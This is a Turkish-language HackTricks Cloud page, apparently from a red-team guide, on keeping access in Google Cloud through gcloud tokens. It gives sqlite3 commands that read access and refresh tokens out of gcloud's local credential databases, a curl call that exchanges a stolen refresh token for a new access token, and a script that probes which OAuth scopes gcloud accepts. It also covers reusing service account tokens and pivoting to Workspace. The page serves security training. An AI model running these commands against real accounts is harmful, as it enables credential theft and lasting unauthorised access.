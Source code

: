 # GCP - Token Sürekliliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Kimlik Doğrulanmış Kullanıcı Token'ları

Bir kullanıcının **mevcut token'ını** almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada **bu tokeni gcloud kullanarak doğrudan nasıl kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**Yeni bir erişim tokeni oluşturmak için** detayları almak üzere çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Ayrıca **`$HOME/.config/gcloud/application_default_credentials.json`** ve **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** dosyalarında yenileme token'larını bulmak da mümkündür.

**Yenileme token'ı**, istemci kimliği ve istemci sırrı ile yeni bir erişim token'ı almak için şunu çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Refresh tokenların geçerliliği **Admin** > **Güvenlik** > **Google Cloud oturum kontrolü** altında yönetilebilir ve varsayılan olarak 16 saat olarak ayarlanmıştır, ancak asla süresinin dolmaması için ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Kimlik doğrulama akışı

`gcloud auth login` gibi bir şey kullanıldığında kimlik doğrulama akışı, tarayıcıda bir istem açar ve tüm kapsamları kabul ettikten sonra tarayıcı, aracın açtığı http portuna bu gibi bir istek gönderir:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Sonra, gcloud, bazı sabit kodlanmış `client_id` (`32555940559.apps.googleusercontent.com`) ve **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) ile **son refresh token verilerini** almak için durumu ve kodu kullanacaktır.

{% hint style="danger" %}
localhost ile iletişimin HTTP üzerinden olduğunu unutmayın, bu nedenle bir refresh token almak için verileri yakalamak mümkündür, ancak bu veri yalnızca 1 kez geçerlidir, bu yüzden bu işe yaramaz, refresh token'ı dosyadan okumak daha kolaydır.
{% endhint %}

### OAuth Kapsamları

Tüm Google kapsamlarını [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) adresinde bulabilirsiniz veya bunları çalıştırarak alabilirsiniz:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Bu betikle **`gcloud`**'un kimlik doğrulamak için kullandığı uygulamanın hangi kapsamları destekleyebileceğini görmek mümkündür:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Bu uygulamanın bu kapsamları desteklediği kontrol edildi:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
ilginçtir ki, bu uygulamanın **`drive`** kapsamını desteklemesi, bir saldırganın kullanıcıyı bu kapsamla bir token oluşturması için zorlaması durumunda, kullanıcının GCP'den Workspace'e geçiş yapmasına olanak tanıyabilir.

**Bunu nasıl** [**istismar edeceğinizi buradan kontrol edin**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Hizmet Hesapları

Kimlik doğrulama yapılmış kullanıcılarla olduğu gibi, bir hizmet hesabının **özel anahtar dosyasını ele geçirirseniz**, genellikle **istediğiniz kadar erişim sağlayabilirsiniz**.\
Ancak, bir hizmet hesabının **OAuth token'ını çalarsanız**, bu daha da ilginç olabilir, çünkü bu token'lar varsayılan olarak sadece bir saat boyunca geçerli olsa da, **kurban özel API anahtarını silerse, OAuth token'ı süresi dolana kadar geçerli kalacaktır**.

### Metadata

Açıkça, GCP ortamında çalışan bir makinenin içindeyseniz, **o makineye bağlı hizmet hesabına erişim sağlayabileceksiniz, bu da metadata uç noktasına ulaşarak mümkündür** (bu uç noktada erişebileceğiniz OAuth token'larının genellikle kapsamlarla kısıtlandığını unutmayın).

### Çözüm Önerileri

Bu teknikler için bazı çözüm önerileri [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

### Referanslar

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
